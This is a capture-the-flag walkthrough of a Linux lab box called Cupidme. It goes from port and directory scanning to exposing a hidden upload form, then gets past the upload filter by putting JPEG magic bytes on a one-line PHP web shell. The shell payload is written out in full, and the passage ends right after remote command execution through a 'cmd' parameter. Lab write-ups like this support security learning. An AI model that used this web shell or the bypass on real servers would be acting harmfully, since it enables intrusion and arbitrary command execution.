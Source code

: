 # Box: Cupidme
# Level: Intermediate
# OS: Linux
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.0.30.187 -T4  -v -p-```

```
```
From our scan we have only 1 open port, so our enumeration will be focused on that port




# Enumeration 

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/57455236-6563-4073-9aa1-42af759dead3)

Lets fuzz for directories

command:```ffuf -u "http://10.0.30.187/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ ffuf -u "http://10.0.30.187/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.30.187/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 167ms]
index.php               [Status: 200, Size: 1805, Words: 92, Lines: 2, Duration: 171ms]
index.php               [Status: 200, Size: 1805, Words: 92, Lines: 2, Duration: 547ms]
LICENSE                 [Status: 200, Size: 1075, Words: 152, Lines: 19, Duration: 166ms]
upload.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 161ms]
:: Progress: [32305/32305] :: Job [1/1] :: 137 req/sec :: Duration: [0:02:46] :: Errors: 0 ::
```
Navigating to the ```images``` directory I got a ```403 error```. 

Lets navaigate to the ```/upload.php``` directory

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cf7c2a44-346c-4dbb-884c-3935990b6131)

As you can see we get redirected back to the main page.

Checking the page source,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9122bbbb-3a8d-4b75-b504-7420ad97032e)

Well, this is the reason why we can't view the ```/upload.php``` directory. The HTML code is commented.

To solve this we have to uncomment that part of the code. We'll be using the developer tools for this

So, right-click and inspect element

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c16de178-3964-49f4-ae0a-02b2fe8912bf)

Click on that drop down

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e6c40a03-3e0b-4f8b-9352-3fe8d65917a5)

Click on that also,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a65d193a-6025-4513-8004-5c1f0382600c)

Good, so our goal is to uncomment that part of the code.

Now, right-click and click on ```Edit As HTML```, we'll be removing the comments ```<!--``` and ```-->```

Doing that should get you this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/76b4abc6-648f-4531-b93c-335f3fbfc383)

As you can see  we can now access the upload button.



# Exploitation

Lets try to upload something, say a ```.jpg``` file

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4bd42d2a-5f42-447a-9100-8c8b67a0ce91)

oops, the file size supported is 39 bytes. So there's a filter in this upload function

1.Upload a .jpeg file 

2.The maximum size of the .jpeg file must be 39 bytes

These are the 2 filters in the upload function

Reading this [blog](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/) talks about how to bypass file upload restrictions

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/11b52f62-d434-4baa-b702-fa5e10cebfee)

This is the method we'll be using

payload:```AAAA<?php system($_GET[‘cmd’]); ?>```

Save this in a file ```bankai.php```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ nano bankai.php 
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ cat bankai.php 
AAAA<?php system($_GET[‘cmd’]); ?>
```
Now, this is a php script, what we'll do is change the magic bytes header from a ```.php``` to a ```.jpeg```

To access the magic bytes of the file, we'll use ```hexeditor```

command:```hexeditor bankai.php```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8a33d3a2-05c8-4b42-8d2f-afc17283ee5c)

We'll be changing that from ```41 41 41 41``` to ```FF D8 FF EE```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/922fd96c-89fc-4e5e-9ce6-6f4f4b22f03d)

To save and exit, hit ```ctrl + x```

```
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ cat bankai.php 
<?php system($_GET[‘cmd’]); ?>
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ file bankai.php   
bankai.php: JPEG image data
```
Good, now lets try to upload this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0eab6a04-a242-4526-a165-5e502427246c)

It worked hehe😎

Navigating to where the file was uploaded to

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5fd58f04-d694-4562-b347-a585b25d8b31)

Cool, we get this. Now add ```?cmd=id``` to the back of the url










